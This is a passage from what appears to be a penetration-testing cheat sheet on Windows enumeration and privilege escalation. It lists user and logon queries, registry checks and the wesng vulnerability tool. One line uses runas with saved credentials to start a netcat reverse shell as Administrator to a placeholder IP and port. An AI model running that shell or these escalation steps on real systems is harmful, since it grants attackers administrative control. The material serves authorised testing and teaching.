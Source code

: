 You can try to see if [wesng](https://github.com/bitsadmin/wesng) say something interesting.
Wesng is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities.

```bash
wes.py systeminfo.txt -p KB4487044 KB4477029 KB4480979
```

For more information about that technique refer to [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/)

#### Users information

```bash
net users # Enumerate the different users on the system
net user *user* # Display information about the given user
wmic useraccount get name,sid,fullname # Displays users using WMI
quser # Identify active user sessions on a computer.
wmic netlogin list /format:List # Display logon information
Get-WmiObject Win32_LoggedOnUser # Display logon users
Get-LocalUser | ft Name, Enabled, LastLogon
Get-ChildItem C:\Users -Force | select Name
klist sessions # Displays a list of logon sessions on this computer.
Get-WinEvent -FilterHashtable @{ LogName='Security'; Id='4624' } # Successful logons
Get-WinEvent -FilterHashtable @{ LogName='Security'; Id='4648' } # Logons with explicit credentials
Get-WinEvent -FilterHashtable @{ LogName='security'; Id='4634' } # Account logoffs
```

1) Check for recently run commands and recent documents

```bash
req query HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
req query HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU

dir "C:\Users\USR\AppData\Local\Microsoft\Windows\FileHistory\Data"
```

2) Check if any user has the **passwordreq** flag set to **no**.

*[/passwordreq](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc771865(v=ws.11)?redirectedfrom=MSDN)* specifies whether a user account must have a password.

```bash
net user USER | findstr "required"
```

If it set to **no**, you could try to use the **/savecred** parameter of the **runas**.

This could be very interesting where it could be done an an account with administrator rights.

```bash
runas /user:Administrator /savecred "nc.exe -c cmd.exe IP PORT"
```

3) Check for the differents "User Shell Folders" configured

```bash
reg query "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders"
```
